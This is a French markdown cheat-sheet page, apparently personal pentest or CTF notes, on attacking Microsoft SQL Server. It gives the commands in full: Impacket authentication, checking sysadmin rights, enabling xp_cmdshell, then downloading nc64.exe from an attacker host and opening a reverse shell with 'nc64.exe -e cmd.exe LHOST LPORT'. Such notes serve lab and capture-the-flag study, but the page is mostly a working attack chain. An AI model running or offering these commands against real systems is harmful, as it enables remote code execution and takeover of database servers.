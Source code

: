 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](server_procedure.md)</sub>
#SQL Server

**Help :**
- help : aide
- -c : execute la commande

**Procédure :**
- Authentification ????? : script [Impacket](impacket.md) : *python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py **USER**@**IP** -windows-auth*
- Pour voir toutes les tables et leur taille : *select name from sys.databases;* OU *exec sp_databases;*
- Pour savoir si on est sysadmin : *select is_srvrolemember('sysadmin')* => si répond 1 => true
- Si le shell windows n'est pas activé :
  - Exécuter un shell windows :
  - si on est sysadmin : procédure stockée pour voir toute la config : *EXEC sp_configure 'show advanced options', 1;*
  - suivre avec : RECONFIGURE
  - pour activer le xp_cmdshell : *EXEC sp_configure 'xp_cmdshell', 1;* =>  puis RECONFIGURE
- Si le shell windows est activé pour l'utiliser: procédure stockée : *EXEC xp_cmdshell 'net user';*
  - Explorer : *xp_cmdshell "powershell -c pwd* 
  - Trouver un dossier (?????? JE SAIS PAS COMMENT) où l utilisateur peut poser un fichier
  - [Simuler un serveur http](sim_http_server.md)
  - Récupérer le [n64.exe](nc64.md). ex : *xp_cmdshell "powershell -c cd C:\FOLDERs; wget http://*LHOST*/nc64.exe -outfile nc64.exe"*
  - Ouvrir port [ncat](ncat.md)
  - Exécuter le [n64.exe](nc64.md). ex : *xp_cmdshell "powershell -c cd C:\FOLDER; .\nc64.exe -e cmd.exe *LHOST* *LPORT*"*
 

